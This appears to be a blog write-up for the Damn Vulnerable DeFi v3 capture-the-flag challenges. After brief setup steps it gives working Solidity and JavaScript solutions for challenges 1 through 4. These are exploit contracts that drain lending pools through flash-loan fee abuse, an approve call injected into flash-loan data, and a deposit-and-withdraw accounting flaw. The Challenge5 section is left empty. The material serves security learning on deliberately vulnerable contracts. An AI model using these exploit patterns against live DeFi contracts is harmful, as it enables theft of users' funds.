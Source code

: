 ```yaml
---
title: Damn vulnerable defi Challenges
date: 2023-03-25 19:02:31
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
---
```


## how to get it started

1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
2. yarn install
3. fill your code in \*.challenge.js
4. run your script via hardhat tools

## Challenge1

```javascript
it("Execution", async function () {
  /** CODE YOUR SOLUTION HERE */
  await token
    .connect(player)
    .approve(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
  await token
    .connect(player)
    .transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
});
```

## Challenge2

```javascript
interface INaiveReceiverLenderPool{
    function fixedFee(address token, uint256) external pure returns (uint256);
    function flashLoan(address receiver,address token, uint256 amount,bytes calldata data) external returns (bool);
}

contract AttackContract {
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    function attack(INaiveReceiverLenderPool pool,address payable receiver) external {
        for(uint i=0;i<10;i++){
            pool.flashLoan(receiver, ETH,0,"0x");
        }
    }
}
```

## Challenge3

Use ERC20 approve function and not it will not affect the balance when making flashloan.

```javascript
function attack(TrusterLenderPool pool,DamnValuableToken _token) external {
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)",address(this),type(uint256).max);
    pool.flashLoan(0,address(this),address(_token),data);
    _token.transferFrom(address(pool),msg.sender,_token.balanceOf(address(pool)));
}
```

## Challenge4

Use our deployed contract to send back the token using deposit function.After the flashloan call withdraw function to take our tokens back.
Do not forget to set the receive function for receiving tokens.
Use \_to.call function to send tokens,it is the current recommended method to use.

```javascript
contract Attack {
     function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value:msg.value}();
     }

     function attack(SideEntranceLenderPool pool,address payable player) external {
        //make a flashloan
        pool.flashLoan(1000 ether);
        //get the money
        pool.withdraw();
        //send to palyer
        (bool sent,) = player.call{value:1000 ether}("");
        require(sent, "Failed to send Ether");
     }

     receive() external payable {}
}
```

## Challenge5

```javascript

```
